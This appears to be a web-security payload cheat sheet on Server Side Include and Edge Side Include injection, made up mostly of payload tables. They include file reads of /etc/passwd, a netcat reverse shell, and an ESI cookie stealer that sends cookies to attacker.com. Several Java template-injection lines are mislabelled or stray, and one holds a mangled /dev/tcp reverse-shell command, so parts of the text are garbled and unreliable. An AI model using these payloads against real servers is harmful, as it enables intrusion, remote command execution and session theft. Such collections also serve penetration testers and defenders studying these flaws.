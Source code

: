 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.

## Summary

* [Methodology](#methodology)
* [Edge Side Inclusion](#edge-side-inclusion)
* [References](#references)

## Methodology

SSI Injection occurs when an attacker can input Server Side Include directives into a web application. SSIs are directives that can include files, execute commands, or print environment variables/attributes. If user input is not properly sanitized within an SSI context, this input can be used to manipulate server-side behavior and access sensitive information or execute commands.

SSI format: `<!--#directive param="value" -->`

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Print the date          | `<!--#echo var="DATE_LOCAL" -->`         |
| Print the document name | `<!--#echo var="DOCUMENT_NAME" -->`      |
| Print all the variables | `<!--#printenv -->`                      |
| Setting variables       | `<!--#set var="name" value="Rich" -->`   |
| Include a file          | `<!--#include file="/etc/passwd" -->`    |
| Include a file          | `<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/port/ip/ 0>&1')}">Hello!</p>` |
| Execute commands        | `<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>`                 |
| Reverse shell           | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |

## Edge Side Inclusion

HTTP surrogates cannot differentiate between genuine ESI tags from the upstream server and malicious ones embedded in the HTTP response. This means that if an attacker manages to inject ESI tags into the HTTP response, the surrogate will process and evaluate them without question, assuming they are legitimate tags originating from the upstream server.

Some surrogates will require ESI handling to be signaled in the Surrogate-Control HTTP header.

```ps1
Surrogate-Control: content="ESI/1.0"
```

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Blind detection         | `<esi:include src=http://attacker.com>`  |
| XSS                     | `<esi:include src=http://attacker.com/XSSPAYLOAD.html>` |
| Cookie stealer          | `<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>` |
| Include a file          | `<esi:include src="supersecret.txt">` |
| Display debug info      | `<esi:debug/>` |
| Add header              | `<!--esi $add_header('Location','http://attacker.com') -->` |
| Inline fragment         | `<esi:inline name="/attack.html" fetchable="yes"><script>prompt('XSS')</script></esi:inline>` |

<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>

| Software | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
| -------- | -------- | ---- | ------- | ------------------------- | -------------- |
| Squid3   | Yes      | Yes  | Yes     | Yes                       | No             |
| Varnish Cache | Yes | No   | No      | Yes                       | Yes            |
| Fastly   | Yes      | No   | No      | No                        | Yes            |
| Akamai ESI Test Server (ETS) | Yes | Yes | Yes | No              | No             |
| NodeJS' esi | Yes   | Yes  | Yes     | No                        | No             |
| NodeJS' nodesi | Yes | No  | No      | No                        | Optional       |

## References

* [Beyond XSS: Edge Side Include Injection - Louis Dion-Marcil - April 3, 2018](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [DEF CON 26 - Edge Side Include Injection Abusing Caching Servers into SSRF - ldionmarcil - October 23, 2018](https://www.youtube.com/watch?v=VUZGZnpSg8I)
* [ESI Injection Part 2: Abusing specific implementations - Philippe Arteau - May 2, 2019](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [Exploiting Server Side Include Injection - n00py - August 15, 2017](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [Server Side Inclusion/Edge Side Inclusion Injection - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection)
* [Server-Side Includes (SSI) Injection - Weilin Zhong, Nsrav - December 4, 2019](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)

